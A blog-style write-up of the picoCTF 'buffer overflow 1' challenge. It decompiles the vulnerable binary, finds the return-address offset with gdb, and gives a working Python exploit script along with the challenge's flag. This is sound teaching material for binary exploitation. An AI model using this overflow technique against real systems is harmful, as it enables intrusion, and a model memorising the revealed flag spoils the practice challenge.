 ```yaml
---
title: PicoCTF - buffer overflow 1
published: 2025-08-07
description: PicoCTF Writeup for buffer overflow 1 Challenge
tags: [binary exploitation, medium, picoCTF 2022]
category: CTF Writeup
draft: false
lang: en
---
```


# PicoCTF Writeup - buffer overflow 1

I64 File (IDA Database): [/i64/202510261106.i64](/i64/202510261106.i64)

PicoCTF Challenge: 
[https://play.picoctf.org/practice/challenge/258?category=6&page=3](https://play.picoctf.org/practice/challenge/258?category=6&page=3)

> ## buffer overflow 1
> Author: Sanjay C / Palash Oswal
> 
> ### Description
> Control the return address<br>
> Now we're cooking! You can overflow the buffer and return to the flag function in the program.<br>
> You can view source here. And connect with it using nc saturn.picoctf.net 53903<br>
> ### Hints
> 1st - Make sure you consider big Endian vs small Endian.<br>
> 2nd - Changing the address of the return pointer can call different functions.<br>
> ### Resources:
> Source Code: [/vuln.c](https://artifacts.picoctf.net/c/185/vuln.c)<br>
> Binary: [/vuln](https://artifacts.picoctf.net/c/185/vuln)<br>

```bash title="Server Information"
$ nc saturn.picoctf.net 53903
```

## Decompile
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    __gid_t v4; // [esp+0h] [ebp-Ch]

    setvbuf(stdout, 0, 2, 0);
    v4 = getegid();
    setresgid(v4, v4, v4);
    puts("Please enter your string: ");
    vuln();
    return 0;
}

int vuln()
{
    int return_address; // eax
    char s[36]; // [esp+0h] [ebp-28h] BYREF
    int savedregs; // [esp+28h] [ebp+0h] BYREF

    gets(s);
    return_address = get_return_address((int)&savedregs);
    return printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", return_address);
}

int __usercall get_return_address@<eax>(int a1@<ebp>)
{
    return *(_DWORD *)(a1 + 4);
}

int win()
{
    char s[64]; // [esp+Ch] [ebp-4Ch] BYREF
    FILE *stream; // [esp+4Ch] [ebp-Ch]

    stream = fopen("flag.txt", "r");
    if ( !stream )
    {
        printf("%s %s", "Please create 'flag.txt' in this directory with your", "own debugging flag.\n");
        exit(0);
    }
    fgets(s, 64, stream);
    return printf(s);
}
```

The code above is the decompiled source code from a binary. Let me summarize it more concisely.

```c
int main(int argc, const char **argv, const char **envp)
{
    gid_t effective_group_id;

    setvbuf(stdout, NULL, _IONBF, 0);
    effective_group_id = getegid();
    setresgid(effective_group_id, effective_group_id, effective_group_id);
    puts("Please enter your string: ");
    vuln();
    return 0;
}

int vuln()
{
    int return_address;
    char buffer[36];
    int saved_return_address;

    gets(buffer);
    return_address = get_return_address((int)&saved_return_address);
    return printf("Okay, time to return... Fingers Crossed... Jumping to 0x%x\n", return_address);
}

uint32_t get_return_address_from_ebp(uint32_t base_pointer)
{
    return *(uint32_t*)(base_pointer + 4);
}

int win()
{
    char flag[64];
    FILE *stream;

    stream = fopen("flag.txt", "r");
    if ( !stream )
    {
        printf("%s %s", "Please create 'flag.txt' in this directory with your", "own debugging flag.\n");
        exit(0);
    }
    fgets(flag, 64, stream);
    return printf(s);
}
```

## Analysis
This program receives a 36-byte string as input into a buffer in the `vuln` function and then returns to the stored `saved_return_address`.
However, the `saved_return_address` cannot normally be modified directly by the user.
Inside the function, though, the vulnerable function `gets` is used to store user input into the buffer.
This function is vulnerable to a **buffer overflow (BOF)**.
As a result, it is possible to overwrite the `saved_return_address` and manipulate the return address to jump to the `win` function.
When the `win` function is reached, the code that provides the flag is already stored there.

```bash
therustymate-picoctf@webshell:~$ r2 ./vuln_2
[0x080490e0]> aaa
...
[0x080490e0]> afl
...
0x080491f6    3    139 sym.win
...
```

```bash
therustymate-picoctf@webshell:~$ file ./vuln_2
./vuln_2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=685b06b911b19065f27c2d369c18ed09fbadb543, for GNU/Linux 3.2.0, not stripped
```

In this program the `win` function is located at `0x080491f6`.
Therefore, to execute it in memory you can pack that address using `struct.pack`.
Because the program uses the x86 (32-bit) architecture, you should use `'<I'` in `struct.pack` to pack the address.

Now we need to find the offset that will overwrite the `saved_return_address`. I'll find the offset using `gdb`.

```python
>>> import string;string.printable
'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"#$%&\'()*+,-./:;<=>?@[\\]^_`{|}~ \t\n\r\x0b\x0c'
```

```bash
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/therustymate-picoctf/vuln_2 
warning: Error disabling address space randomization: Operation not permitted
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string: 
0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ
Okay, time to return... Fingers Crossed... Jumping to 0x4c4b4a49

Program received signal SIGSEGV, Segmentation fault.
0x4c4b4a49 in ?? ()
(gdb) info registers eip
eip            0x4c4b4a49          0x4c4b4a49
```

gdb shows the `EIP` register is currently pointing at `0x4c4b4a49`. Converting that back into a string yields the following:

```python
>>> chr(0x4c)+chr(0x4b)+chr(0x4a)+chr(0x49)
'LKJI'
```

Since the string "LKJI" appears, it indicates that the return address starts from the character **'I'** and spans 4 bytes. The method to calculate the offset is as follows:

```python
>>> len('0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ'.split('IJKL')[0])
44
```

Therefore, after 44 bytes of characters, we can hijack the return address by using `struct.pack("<I", 0x080491f6)`.

## Exploit Script
```python
from socket import *
import struct
import sys
import time

def craftPayload():
    padding = b"A" * 44
    return_address = struct.pack("<I", 0x080491f6)
    payload = padding + return_address
    return payload

def exploit(target: str, port: int):
    payload = craftPayload()
    s = socket(AF_INET, SOCK_STREAM)
    s.connect((str(target), int(port)))
    time.sleep(1)
    s.recv(65535)
    s.send(payload + b"\n")
    s.recv(65535)
    print(s.recv(65535).decode())
    s.close()

if __name__ == "__main__":
    args = sys.argv
    target = str(args[1])
    port = int(args[2])
    exploit(target, port)
```

## Result
```bash
therustymate-picoctf@webshell:~$ python3 solve.py saturn.picoctf.net 53903
picoCTF{addr3ss3s_ar3_3asy_6462ca2d}
```

Therefore, the flag is: `picoCTF{addr3ss3s_ar3_3asy_6462ca2d}`